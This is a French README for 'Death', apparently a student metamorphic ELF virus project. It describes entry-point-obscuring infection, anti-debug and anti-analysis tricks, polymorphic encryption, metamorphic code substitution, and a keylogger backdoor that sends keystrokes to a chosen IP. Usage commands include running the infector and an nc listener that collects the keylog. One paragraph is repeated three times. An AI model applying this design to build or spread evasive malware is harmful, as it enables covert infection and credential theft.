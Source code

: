# Death

[@arobion][arobion]

```
Sommaire:
  I	- Usage
  II	- Description
  III	- Fonctionement
        - Infection
          - Entry-Point Obscuring (EPO) technique
          - Insertion
        - Obfuscation
          - Anti debug
            - Anti breackpoint
            - Anti ptrace
            - Anti step by step
            - Section header obfuscation
            - Verification si un anti-virus
            - Close EPO
          - Polymorphisme
          - Metamorphisme
        - Backdoor
```
> ATTENTION : Ce projet est uniquement à **but pedagogique**.

## I - Usage

```shell
$> make
$> ./scripts/create.sh #crée le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> ./scripts/check.sh	#verifie si il y a des binaires infecté dans /tmp/test1 et /tmp/test2
$> ./scripts/infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes à partir de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#être en root et lancer ./infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant à realiser un packer de elf64
- **FAMINE**: Projet consistant à crée un virus basique qui à pour but de simplement laisser une trace dans certains fichiers contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à crée un virus obfusqué
- **WAR**: Projet consistant à crée un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 ```call``` valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la ```GOT```.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section ```.text``` et le reste apres le ```.bss```.

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Lors du lancement de la routine d'infection, nous allons effectuer un ```hash``` de la partie de notre code qui permet le dechiffrement du ```payload```, puis nous allons utiliser ce ```hash``` en tant que clé de déchiffrement du ```payload```, qui, à la fin du déchiffrement aura une certaine valeure à laquelle nous ajoutons une autre valeure ( determinée lors de l'infection) qui correspond a l'adresse du debut du ```payload```.
      
      Ainsi, l'insertion d'un breakpoint corromp le ```hash``` ce qui entraine une mauvaise clé de déchiffremment ainsi qu'une mauvaise adresse du ```payload```.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous créons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du père et récupérer cette valeur.
      
      Ensuite dans l'enfant nous allons executer la partie déchiffrement, et nous allons faire ```jump``` le parent à l'adresse obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grâce à l'insctrution ```rdtsc```.
      
      Vérification du ```RFLAGS``` ```TF``` grâce à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'informations sur le binaire infecté.
      
  - **Verification de certains processus**:
  
      Nous recherchons si il y a un process avec le nom ```inhibitor```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Après le premier passage dans notre virus nous refermons les ```EPO``` pour ne plus repasser dans notre virus jusqu'à la fin de l'exécution du programme.
  
  #### Polymorphisme:
  Notre polymorphisme est basé sur un ```fingerprint``` unique, généré lors de l'infection du fichier.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Grâce à ce fingerprint, nous obtenons des clés unique, nous permettant d'effectuer un chiffrement du ```payload``` different à chaque infection.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Chaque fonction du ```Payload``` est chiffrée grace à une clé unique issue d'un assemblage du fingerprint et du hash de cette fonction. 
  
  Lors de l'execution du ```Payload```, chaque fonction est ainsi déchiffrée avant son execution, puis rechiffrée des la fin de son execution, ce qui permet d'assurer une bonne protection contre l'analye dynamique.
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des ```placeholder```.
   Nous les remplacons par différentes instructions, en fonction d'un motif généré à partir du ```fingerprint```.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoie les touches sur une adresse IP renseignée dans ```./srcs_s/anti_data.s``` sur le port ```5678```.




[arobion]: <https://github.com/arobion>
